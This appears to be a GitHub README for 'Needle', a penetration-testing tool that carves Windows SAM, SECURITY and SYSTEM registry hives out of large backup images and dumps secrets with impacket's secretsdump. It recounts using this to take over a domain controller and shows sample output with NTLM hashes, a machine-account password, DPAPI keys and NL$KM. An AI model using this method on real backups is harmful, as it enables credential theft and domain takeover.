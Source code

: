 # Needle

Needle is a file carving utility that works very well for finding Windows centric high value files within a given haystack. This specifically was targeting Veritas NetBackup files but it works for any large block of data such as a tar file.

It specifically looks for the on disk versions of SAM, SECURITY, and SYSTEM registry hives and carve those files out of the blob of data. If impacket is installed, it will utilize secretsdump to automatically dump secrets from the hives. 

## Why?
We were on an Internal pen test where the client had unauthenticated access to a NFS share which contained backups of several High Value Targets including their DC. The backup images were created by NetBackup and were a non-standard tar file that we were unable to easily extract or exfiltrate due to the large size of the image (130+ GB). We created this tool to automate a process done manually during the test in order to gain access to the machine account in order to DCSYNC the DC and get DA. 

## Usage
```
python3 main.py /path/to/haystack
```

## Expected Output
`python3 main.py /mnt/large.vm.backup.tar`
```
Potentially found SAM at offset 2170928 within searched chunk 977. Writing to 905b5cd4-f9bf-421f-916c-531ad97b5d34_SAM
Potentially found SECURITY at offset 2461744 within searched chunk 977. Writing to de639e0e-a5ad-4d2e-aff2-b415c0087604_SECURITY
Potentially found SYSTEM at offset 3129391 within searched chunk 984. Writing to d20cc9ed-25ec-4f48-9a5d-f009ec73ccd2_SYSTEM
Potentially found SYSTEM at offset 2609199 within searched chunk 986. Writing to b0c4826a-6ffb-4464-b760-210f0b94f9be_SYSTEM
Potentially found SECURITY at offset 1708080 within searched chunk 1165. Writing to 82d5e5d4-79ca-46f6-8a5d-9a017b920b6f_SECURITY
Potentially found SAM at offset 2125872 within searched chunk 3397. Writing to de0c2e6b-6f86-431d-a8bd-5e3e8c0c53c3_SAM
Potentially found SECURITY at offset 364592 within searched chunk 24271. Writing to a134d5bb-d583-4c97-9926-7fa68367a788_SECURITY
Potentially found SYSTEM at offset 1966127 within searched chunk 33848. Writing to ccf58b55-3cef-4764-acf2-772c2c575cda_SYSTEM
impacket is installed, trying to autodump SAM and LSA Secrets using secretsdump...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:b4b9b02e6f09a9bd760f388b67351e2b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

$MACHINE.ACC:plain_password_hex:6e88709fade737b4ee7667c0a1749d8a68db0966aea6ae6fc1a8ffb77109c53e408de50c5f80ca41baaa35ee6b224ea0e24687b3c056c260e84913e74c8db0137fa1418ccae2db1e18c245dd23fafa1fc8b1b208ae79ff95938196f2f3f0858703351c3a62910edb25072e59859961131a7323494a4f431e48e6dacf6ab0194dfe3b4c09a5d57abc6c61c2537a54a7b30d4a0a37e9bd8bbbe9907ce9c07b417bace4f7b730a0711bff10ddf977eff11be0e13c69dd4e03416949b3d5ba3e1d1276a0defc42888857de878934f6b284a4f3524b24b4cfa68993b0e396955259b1a2ae2f3e07449ff84410fd227650a39f
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:86d57971204ad7503e3fb1da9d03cb14
dpapi_machinekey:0x4cdc855cea4c0aad4b8d624c7416e3c2efcd4ed3
dpapi_userkey:0x8f57b3cd3705ed348056220254b0c4896eeacce8
NL$KM
 0000   6E 0E 6B 09 C1 58 FA 85  E3 AD 46 4F 21 94 4D DA   n.k..X....FO!.M.
 0010   6A 1E 23 7B 67 BB D3 02  F9 6C CC AB E3 DC 15 8E   j.#{g....l......
 0020   EE F2 BB 65 36 B1 FF 29  34 74 BE 69 02 0C 9A AA   ...e6..)4t.i....
 0030   9F 40 5B F9 22 E8 0F 72  81 0F A7 21 4F BE 4F 29   .@[."..r...!O.O)
NL$KM:6e0e6b09c158fa85e3ad464f21944dda6a1e237b67bbd302f96cccabe3dc158eeef2bb6536b1ff293474be69020c9aaa9f405bf922e80f72810fa7214fbe4f29
```

## TODO
[x] Find SAM in haystack and write to file
[x] Find SYSTEM in haystack and write to file
[x] Dump local hashes using secretsdump
[x] Find SECURITY in haystack and write to file
[x] Expand dumping to include Machine Account
[ ] Refactor patterns into a list for easier expandability 
[ ] Find NTDS.dit if haystack is from DC
[ ] Speed up searching using regex 